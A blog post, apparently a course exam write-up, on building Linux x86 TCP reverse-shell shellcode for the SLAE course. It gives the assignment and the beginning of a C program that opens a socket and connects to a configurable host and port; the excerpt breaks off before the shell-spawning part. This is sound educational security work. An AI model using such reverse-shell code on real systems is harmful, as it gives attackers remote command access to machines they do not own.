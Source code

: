 ```yaml
---
layout: post
title: SLAE Exam 2 TCP Reverse Shell
category: Security
tags: [slae, shell, assembly, programming]
---
```


No coffee tonight. It's too late for that. It's not that this assignment took long it all, but there were several things I had to do before I could finish this up and post it. Nevertheless, I have successfully implemented tcp reverse shellcode for a linux/x86 system as part of the SLAE exam. Continue reading to find out how it was done!


# Assignment 2 - TCP Reverse Shell

It's late. I'm tired. I'm getting the hang of this, but I've just got no time to work on it. There's so much to do and so little space to squeeze it into. It's like my life is being coded on a commodore 64! Alas, the SLAE is still proving to be a fun learning tool, so let's dive in.

## Problem Statement

* Create a Shell_Reverse_TCP shellcode
  - Reverse connects to configured IP and Port
  - Execs shell on successful connection
* IP and Port number should be easily configurable

## Forming a Base

This guide will follow very closely with my [TCP Bind Shell]({% post_url 2018-02-22-slae-exam-1-tcp-bind-shell %}) guide, as the problems are very similar. Let's start off by writing our own C program to do what we want:

**_assignment2.c_**

```c
#include <unistd.h> // dup2, execve
#include <netinet/in.h> // socket structures and constants
#include <arpa/inet.h> // inet_addr

#define RHOST "127.0.0.1"
#define RPORT 4444

int main() {
  int sockfd;
  struct sockaddr_in remote_addr;


  // CREATE SOCKET
  // create a new socket  (ipv4, tcp, tcp)
  sockfd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);


  // CONNECT TO ADDRESS
  // create the address to connect to
  remote_addr.sin_family = AF_INET; // ipv4
  remote_addr.sin_port = htons(RPORT); // port in the correct endianness
  remote_addr.sin_addr.s_addr = inet_addr(RHOST);

  // Connect to the specified address (127.0.0.1:4444)
  connect(sockfd, (struct sockaddr*) &remote_addr, sizeof(remote_addr));


```
